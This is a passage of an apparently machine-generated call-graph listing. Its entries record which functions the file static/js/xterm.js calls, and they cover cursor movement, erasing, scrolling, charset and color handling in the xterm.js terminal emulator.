{"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "nextStop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "shiftOut"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setgLevel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "shiftIn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setgLevel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_restrictCursor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "markDirty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_setCursor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "markDirty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_restrictCursor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "markDirty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_moveCursor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_restrictCursor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_setCursor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "cursorUp"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_moveCursor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_moveCursor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "cursorDown"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_moveCursor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_moveCursor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "cursorForward"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_moveCursor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "cursorBackward"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_moveCursor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "cursorNextLine"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "cursorDown"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "cursorPrecedingLine"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "cursorUp"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "cursorCharAbsolute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_setCursor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "cursorPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_setCursor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "charPosAbsolute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_setCursor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "hPositionRelative"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_moveCursor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "linePosAbsolute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_setCursor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "vPositionRelative"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_moveCursor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "hVPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "cursorPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "tabClear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "cursorForwardTab"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "nextStop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "cursorBackwardTab"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "prevStop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "selectProtected"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_eraseInBufferLine"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "replaceCells"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_resetBufferLine"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fill"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clearMarkers"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "eraseInDisplay"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_eraseInBufferLine"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_resetBufferLine"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "markDirty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_eraseInBufferLine"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_resetBufferLine"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "markDirty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_resetBufferLine"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "markDirty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "trimStart"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "eraseInLine"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_eraseInBufferLine"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_eraseInBufferLine"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_eraseInBufferLine"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "markDirty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "insertLines"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_restrictCursor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "markRangeDirty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "deleteLines"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_restrictCursor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "markRangeDirty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "insertChars"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_restrictCursor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "insertCells"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "markDirty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "deleteChars"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_restrictCursor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "deleteCells"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "markDirty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "scrollUp"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "markRangeDirty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "scrollDown"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "markRangeDirty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "scrollLeft"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "deleteCells"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "markRangeDirty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "scrollRight"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "insertCells"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "markRangeDirty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "insertColumns"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "insertCells"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "markRangeDirty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "deleteColumns"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "deleteCells"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "markRangeDirty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "eraseChars"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_restrictCursor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "replaceCells"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getNullCell"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "markDirty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "repeatPrecedingCharacter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "extractWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "codePointAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "copyWithin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "print"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "sendDeviceAttributesPrimary"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_is"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_is"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_is"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "triggerDataEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_is"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "triggerDataEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "sendDeviceAttributesSecondary"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_is"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "triggerDataEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_is"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "triggerDataEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_is"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "triggerDataEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_is"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "triggerDataEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_is"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setMode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setModePrivate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setgCharset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setgCharset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setgCharset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setgCharset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "resize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_setCursor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "debug"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "debug"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "debug"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "saveCursor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "saveCursor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "activateAltBuffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "resetMode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "resetModePrivate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "resize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_setCursor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "debug"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "debug"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "debug"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "restoreCursor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "activateNormalBuffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "restoreCursor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "requestMode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "triggerDataEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_updateAttrColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fromColorRGB"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_extractColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getSubParams"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_updateAttrColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_updateAttrColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_updateAttrColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_processUnderline"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "updateExtended"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_processSGR0"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "updateExtended"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "charAttributes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_processSGR0"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_processSGR0"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_processUnderline"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getSubParams"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_processUnderline"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_processUnderline"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_extractColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "updateExtended"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "debug"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "deviceStatus"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "triggerDataEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "triggerDataEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "deviceStatusPrivate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "triggerDataEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "softReset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "reset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "reset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setCursorStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setScrollRegion"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_setCursor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "windowOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "triggerDataEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "shift"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "shift"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setTitle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setIconName"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "saveCursor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "restoreCursor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_restrictCursor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setTitle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setIconName"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setOrReportIndexedColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "shift"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "shift"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setHyperlink"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_createHyperlink"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_finishHyperlink"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_createHyperlink"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_getCurrentLinkId"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_finishHyperlink"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "findIndex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerLink"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "updateExtended"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_finishHyperlink"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "updateExtended"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_setOrReportSpecialColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setOrReportFgColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_setOrReportSpecialColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setOrReportBgColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_setOrReportSpecialColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setOrReportCursorColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_setOrReportSpecialColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "restoreIndexedColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "restoreFgColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "restoreBgColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "restoreCursorColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "nextLine"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "index"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "keypadApplicationMode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "debug"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "keypadNumericMode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "debug"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "selectDefaultCharset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setgLevel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setgCharset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "selectCharset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "selectDefaultCharset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setgCharset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "index"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_restrictCursor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "scroll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": 